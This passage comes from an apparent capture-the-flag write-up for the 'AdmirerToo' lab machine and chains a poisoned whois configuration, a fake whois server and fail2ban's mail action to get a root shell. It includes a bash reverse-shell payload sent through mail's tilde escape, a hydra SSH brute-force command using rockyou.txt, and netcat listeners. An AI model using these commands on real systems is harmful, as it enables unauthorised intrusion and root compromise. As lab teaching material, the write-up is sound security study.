 Lots of pluses, but that's exactly what this'll be.

**chaining the final exploit**

Once we replace the original gadget chain and visit the URL, let's see about our config file!
```
jennifer@admirertoo:~$ cat /usr/local/etc/whois.conf    
[{"Expires":1,"Discard":false,"Value":"\"}]*10.10.14.12 10.10.14.12                                                                                                               
                                                                                                                                                                                 
                                                                                                                                                                                 
                          \n"}]jennifer@admirertoo:~$
```

Okay, that's awesome. But does it work when we look up our IP? `whois` can help us test that. The Whois protocol runs on port 43/tcp normally, so let's set that up on our machine with `sudo nc -lnvp 43`. To look up our IP, it's simply `whois <IP>`.
```
thehated@TRYHARDER:/dev/shm/phpggc$ sudo nc -lnvp 43  
[sudo] password for thedoug:    
Ncat: Version 7.80 ( https://nmap.org/ncat )  
Ncat: Listening on :::43  
Ncat: Listening on 0.0.0.0:43  
Ncat: Connection from 10.10.11.137.  
Ncat: Connection from 10.10.11.137:34520.  
10.10.14.12
```

Indeed, we get a callback! And by taking advantage of the `mail` tilde escape functionality (`~! [command]`), we can have commands executed as root. Fail2ban runs as root, so the email program should be run with those privileges too. Here we go...
```
thehated@TRYHARDER:/dev/shm/phpggc$ echo -ne '~! bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"' | sudo nc -lnvp 43  
Ncat: Version 7.80 ( https://nmap.org/ncat )  
Ncat: Listening on :::43  
Ncat: Listening on 0.0.0.0:43
```

^ The main 'whois' server (because it really isn't one).

```
thehated@TRYHARDER:/dev/shm$ hydra -I -l jennifer -P ~/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://admirer-gallery.htb
```

^ Brute forcing SSH in order to have it ban us, which will send that email using our hacked whois configuration.

```
thehated@TRYHARDER:/dev/shm/phpggc$ nc -lnvp <PORT> 
Ncat: Version 7.80 ( https://nmap.org/ncat )  
Ncat: Listening on :::<PORT>  
Ncat: Listening on 0.0.0.0:<PORT>
```

^ A catcher for our reverse shell.
